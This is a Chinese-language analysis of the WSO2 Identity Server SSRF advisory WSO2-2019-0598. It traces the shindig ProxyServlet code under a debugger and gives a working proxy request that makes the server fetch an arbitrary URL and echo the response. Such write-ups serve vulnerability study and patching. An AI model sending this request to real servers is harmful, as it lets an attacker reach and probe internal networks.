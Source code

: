 # WSO2 proxy SSRF漏洞 WSO2-2019-0598

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

<a-checkbox checked>WSO2 Identity Server  5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0</a-checkbox></br>

<a-checkbox checked>WSO2 IS as Key Manager  5.3.0 , 5.5.0 , 5.6.0 , 5.7.0</a-checkbox></br>

## 环境搭建

[https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip](https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip)

## 漏洞复现

根据官方描述，漏洞造成的原因主要是  shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![img](/assets/PeiQi-Wiki/img/1650949168107-52c50aa8-724d-44fe-b6b7-88c5ee421b1a.png)

下载源码启动环境，在IDEA中调试,

![img](/assets/PeiQi-Wiki/img/1650949296183-8fcf7648-396c-4cf0-97e6-2d8bd7703549.png)

![img](/assets/PeiQi-Wiki/img/1650949352127-e4a58aa5-02ab-47b6-a39f-4c4674078557.png)

根据官方描述，在全局搜索 shindig 相关代码

![img](/assets/PeiQi-Wiki/img/1650949484773-86c19b18-058f-4b04-b3af-f2c770e042fe.png)

打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程

![img](/assets/PeiQi-Wiki/img/1650949747820-46ca8de3-5455-4814-9d7d-1f43470e9842.png)

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![img](/assets/PeiQi-Wiki/img/1650949997574-c1633833-c71b-4d0d-b6f7-b2408c614032.png)

我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`
![img](/assets/PeiQi-Wiki/img/1650952090941-f1e39caa-c6ee-4ad2-9ee9-51f1d52f88f0.png)

看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与  Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

![img](/assets/PeiQi-Wiki/img/1650952325298-e424a1e2-e3e0-4a14-8424-10cfb0d63365.png)

但断点调试过程中，却发现这个点是利用失败的

![img](/assets/PeiQi-Wiki/img/1650952414457-a9d6704f-ac22-48fb-ba74-d1c96e2c18b0.png)

![img](/assets/PeiQi-Wiki/img/1650952488384-050175c2-7724-4dc3-a07d-ab5b893a2867.png)

只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

![img](/assets/PeiQi-Wiki/img/1650952714596-71a7d9a1-931d-4592-a594-a0a113410d1c.png)

发送请求包，打断点看一下处理流程

```java
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中 

```java
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到` org.apache.shindig.gadgets.servlet.ProxyHandler `

![img](/assets/PeiQi-Wiki/img/1650956411691-435ce4a4-0fd4-4c36-ae68-f225e5eefb31.png)



`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![img](/assets/PeiQi-Wiki/img/1650957359634-2d8e534a-14d0-409c-8b7d-61fdbdc5695b.png)



接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```java
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![img](/assets/PeiQi-Wiki/img/1650956748587-08627c03-ca22-489e-b174-eb1c476f9072.png)

![img](/assets/PeiQi-Wiki/img/1650956819778-3300aef4-dc84-425e-bcdf-6f5dd04bfa3e.png)

最后回显至页面中, 造成存在回显的SSRF

![img](/assets/PeiQi-Wiki/img/1650957201523-47aa0d2c-7cc7-4c10-b14c-fd48049681d3.png)
![img](/assets/PeiQi-Wiki/img/1650957230578-815a5156-d3b5-419b-a2e7-c2ac97a2c562.png)